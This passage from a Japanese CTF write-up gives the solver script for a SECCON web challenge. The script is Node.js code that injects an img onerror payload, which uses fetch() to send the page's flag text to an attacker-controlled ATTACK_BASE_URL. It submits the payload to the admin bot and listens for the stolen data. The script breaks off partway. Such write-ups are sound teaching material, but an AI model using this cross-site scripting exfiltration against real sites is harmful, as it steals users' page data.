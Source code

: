 `ECCON{real_flag} SECCON{REDACTED}">`の文字列が`ATTACK_BASE_URL`に投げられます。
どうしてこうなるのかは、自分の手で確かめてください！

### Solver

```javascript
const fastify = require("fastify")();

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const emoji = "0/ownerDocument/defaultView/RegExp/rightContext";
  const message = `{{emoji}} S{{emoji}}<p id="}<img src=0 onerror=fetch(\`${ATTACK_BASE_URL}/?text=\`+encodeURIComponent(document.all.message.textContent))>"></p><script><`;
  const url = `http://web:3000/result?${new URLSearchParams({
    emoji,
    message,
  })}`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        url,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const text = req.query.text;

    // Print a flag
    console.log("S" + text);
    // -> SECCON{real_flag} SECCON{REDACTED}">

    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1000);
      await exploit();
```